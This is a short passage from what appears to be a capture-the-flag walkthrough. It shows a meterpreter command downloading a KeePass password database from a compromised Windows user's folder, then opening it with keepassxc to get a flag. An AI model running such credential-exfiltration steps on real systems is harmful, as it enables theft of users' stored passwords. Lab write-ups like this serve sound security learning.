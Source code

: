 	* Download file `.kdbx` from our `meterpreter`
	
		```
		download C:/Users/trevor.local/Documents/PasswordDatabase.kdbx
		```

		![task5-download](./images/task5-download.png)

	* Open Databases with `KeePassX` and type the password
	
		```
		keepassxc PasswordDatabase.kdbx
		```

		![task5-keepass](./images/task5-keepass.png)

	* Get the flag
	
		![task5-flag](./images/task5-flag.png)
